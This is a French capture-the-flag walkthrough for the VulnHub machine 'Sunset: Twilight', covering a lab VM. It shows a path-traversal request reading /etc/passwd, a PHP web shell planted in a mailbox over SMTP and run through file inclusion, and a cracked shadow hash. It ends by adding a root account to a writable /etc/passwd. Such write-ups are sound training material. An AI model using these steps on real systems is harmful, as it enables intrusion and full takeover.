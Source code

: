 ```yaml
---
title: "Solution du CTF Sunset: Twilight de VulnHub"
tags: [CTF, VulnHub]
---
```


Suite de la saga *Sunset* avec le CTF [Twilight](https://vulnhub.com/entry/sunset-twilight,512/) disponible sur *VulnHub*. Cet opus reprend quelques principes déjà vus dans les précédents épisodes.

Sur le port 80 se trouve un site custom. `Wapiti` y trouve très vite une faille de type directory traversal :

```console
$ wapiti -u "http://192.168.56.165/"

     __    __            _ _   _ _____
    / / /\ \ \__ _ _ __ (_) |_(_)___ /
    \ \/  \/ / _` | '_ \| | __| | |_ \
     \  /\  / (_| | |_) | | |_| |___) |
      \/  \/ \__,_| .__/|_|\__|_|____/
                  |_|                 
Wapiti 3.1.7 (wapiti-scanner.github.io)
[*] Saving scan state, please wait...

[*] Launching module exec

[*] Launching module ssrf

[*] Launching module cookieflags

[*] Launching module sql

[*] Launching module http_headers
Checking X-Frame-Options :
X-Frame-Options is not set
Checking X-Content-Type-Options :
X-Content-Type-Options is not set

[*] Launching module ssl

[*] Launching module file
---
Linux local file disclosure vulnerability in http://192.168.56.165/lang.php via injection in the parameter lang
Evil request:
    GET /lang.php?lang=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    host: 192.168.56.165
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---

[*] Launching module redirect

[*] Launching module xss

[*] Launching module csp
CSP is not set

[*] Launching module permanentxss

[*] Generating report...
A report has been generated in the file /home/devloop/.wapiti/generated_report
Open /home/devloop/.wapiti/generated_report/192.168.56.165_04092023_0735.html with a browser to see this report.
```

L'idée est ensuite de trouver un fichier à inclure dans lequel on peut aussi injecter des données d'une façon ou d'une autre (ex : User-Agent dans les logs Apache, nom d'utilisateur dans les logs SSH, etc) 

Ici on remarque que l'on peut inclure la boite mail de l'utilisateur `www-data` :

```console
$ ffuf -u "http://192.168.56.165/lang.php?lang=../../../../../../../../FUZZ" -w logfiles.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.165/lang.php?lang=../../../../../../../../FUZZ
 :: Wordlist         : FUZZ: logfiles.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

/etc/issue.net          [Status: 200, Size: 20, Words: 3, Lines: 2]
/etc/passwd             [Status: 200, Size: 1594, Words: 16, Lines: 30]
/etc/os-release         [Status: 200, Size: 261, Words: 6, Lines: 10]
/etc/ssh/sshd_config    [Status: 200, Size: 3235, Words: 293, Lines: 122]
/proc/cmdline           [Status: 200, Size: 96, Words: 4, Lines: 2]
/proc/version           [Status: 200, Size: 145, Words: 14, Lines: 2]
/var/log/alternatives.log.1 [Status: 200, Size: 20009, Words: 1452, Lines: 104]
/var/log/faillog        [Status: 200, Size: 32032, Words: 1, Lines: 1]
/var/log/dpkg.log.1     [Status: 200, Size: 285260, Words: 21272, Lines: 4279]
/var/log/lastlog        [Status: 200, Size: 292292, Words: 1, Lines: 1]
/var/log/wtmp           [Status: 200, Size: 45696, Words: 1, Lines: 6]
/var/mail/www-data      [Status: 200, Size: 21825, Words: 1909, Lines: 532]
/var/run/utmp           [Status: 200, Size: 1152, Words: 1, Lines: 1]
/var/spool/mail/www-data [Status: 200, Size: 21825, Words: 1909, Lines: 532]
/etc/motd               [Status: 200, Size: 286, Words: 36, Lines: 8]
/etc/mysql/my.cnf       [Status: 200, Size: 869, Words: 115, Lines: 24]
/etc/group              [Status: 200, Size: 838, Words: 1, Lines: 60]
/etc/hosts              [Status: 200, Size: 188, Words: 19, Lines: 8]
/etc/crontab            [Status: 200, Size: 1042, Words: 181, Lines: 23]
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228]
/etc/issue              [Status: 200, Size: 27, Words: 5, Lines: 3]
/etc/services           [Status: 200, Size: 18774, Words: 1098, Lines: 579]
:: Progress: [275/275] :: Job [1/1] :: 16 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Pour injecter des données dans ce fichier, on peut envoyer un mail à l'utilisateur puisque le port SMTP est accessible :

```console
$ ncat 192.168.56.165 25 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.165:25.
220 twilight ESMTP Exim 4.92 Sun, 09 Apr 2023 03:40:18 -0400
HELO twilight
250 twilight Hello twilight [192.168.56.1]
MAIL FROM: zozo@hacker.com
250 OK
RCPT TO: www-data@twilight
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
start<?php system($_GET["cmd"]); ?>end
.
250 OK id=1plPfC-0000KN-Tg
QUIT
221 twilight closing connection
```

On effectuera l'exécution de commande de cette façon :

```
http://192.168.56.165/lang.php?lang=../../../../../../../../var/spool/mail/www-data&cmd=uname%20-a
```

Une fois un shell récupéré je vois deux processus qui servent le même dossier via PHP CLI :

```
miguel     363  0.0  2.2 216292 23168 ?        S    03:32   0:00 /usr/bin/php -S 0.0.0.0:63525 -t /home/miguel/efs2
miguel     364  0.0  2.3 216292 23320 ?        S    03:32   0:00 /usr/bin/php -S 0.0.0.0:8080 -t /home/miguel/efs
miguel     365  0.0  1.5  24388 15636 ?        S    03:32   0:00 /usr/bin/python -m pyftpdlib -w -p 2121 -d /home/miguel/ftp
```

À bien regarder les fichiers exposés se font passer pour un `Easy File Sharing Web Server 7.2` mais il s'agit en fait juste d'un HTML pour nous induire en erreur.

Le dossier servi est inaccessible, mais je devine qu'il s'agit d'un faux, car aucun des liens dans la page retournée n'est fonctionnel, mais aussi parce que la version de PHP est vulnérable à une faille de divulgation de code source déjà présenté dans mes précédentes solutions.

C'est en vérifiant les fichiers sur le système qu'on obtient quelques surprises :

```console
www-data@twilight:/tmp$ find / -type f -user root -writable -ls 2> /dev/null | grep -v /proc | grep -v /sys
   146813      4 -rwxrwxrwx   1 root     root         1594 Jul 16  2020 /etc/passwd
   277308      4 -rwsrwxrwx   1 root     root         1286 Nov 27  2007 /var/www/html/gallery/style/images/ok.gif
   277304      4 -rwsrwxrwx   1 root     root          455 Nov 27  2007 /var/www/html/gallery/style/images/header_bg.gif
   277306      4 -rwsrwxrwx   1 root     root          579 Nov 27  2007 /var/www/html/gallery/style/images/header_right.gif
   277303      4 -rwsrwxrwx   1 root     root          511 Nov 27  2007 /var/www/html/gallery/style/images/button.gif
   277305      4 -rwsrwxrwx   1 root     root         1581 Nov 27  2007 /var/www/html/gallery/style/images/header_left.gif
   277307      4 -rwsrwxrwx   1 root     root         1333 Nov 27  2007 /var/www/html/gallery/style/images/nok.gif
   277309      4 -rwsrwxrwx   1 root     root         3191 Nov 27  2007 /var/www/html/gallery/style/style.css
```

Le fichier `passwd` est donc écrivable par tous mais ce n'est pas tout : une backup du fichier `shadow` est accessible.

```
   131126      4 -rw-rw-r--   1 root     shadow       1036 Jul  8  2020 /etc/shadow-
```

On peut très vite casser le hash de l'utilisateur `miguel` qui n'est autre que `miguel`.

Le mot de passe ne fonctionne pas pour `ssh` mais est accepté pour `smb` :

```console
$ smbclient -U miguel -L //192.168.56.165
Password for [WORKGROUP\miguel]:

        Sharename       Type      Comment
        ---------       ----      -------
        WRKSHARE        Disk      Workplace Share. Do not access if not an employee.
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
SMB1 disabled -- no workgroup available
```

Le partage s'avère vide, mais peu importe. Comme on peut écrire dans `/etc/passwd` on peut rajouter un compte utilisateur privilégié :

```console
www-data@twilight:/tmp$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd
www-data@twilight:/tmp$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
(\ 
\'\ 
 \'\     __________  
 / '|   ()_________)
 \ '/    \ ~~~~~~~~ \
   \       \ ~~~~~~   \
   ==).      \__________\
  (__)       ()__________)


34d3ecb1bbd092bcb87954cee55d88d3

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```

